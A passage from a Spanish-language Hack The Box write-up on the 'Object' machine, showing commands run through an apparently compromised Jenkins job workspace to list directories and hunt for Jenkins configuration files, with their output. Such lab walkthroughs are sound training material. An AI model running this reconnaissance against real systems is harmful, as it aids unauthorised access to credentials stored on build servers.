 <img src="/writeups/assets/img/Object-htb/12.png" alt="">

Listo los recursos existentes en el directorio actual

```null
cmd /c powershell -c dir -force
```

```null
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\Testing>cmd /c powershell -c dir -force 


    Directory: C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\Testing


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/14/2023   7:14 AM              0 ')
```

Busco por ficheros de configuración en ```\.jenkins```

```null
cmd /c powershell -c dir ..\..\ -force
```

```null
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\Testing>cmd /c powershell -c dir ..\..\ -force 


    Directory: C:\Users\oliver\AppData\Local\Jenkins\.jenkins


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        2/14/2023   6:34 AM                jobs                                                                  
d-----       10/20/2021  10:19 PM                logs                                                                  
d-----       10/20/2021  10:08 PM                nodes                                                                 
```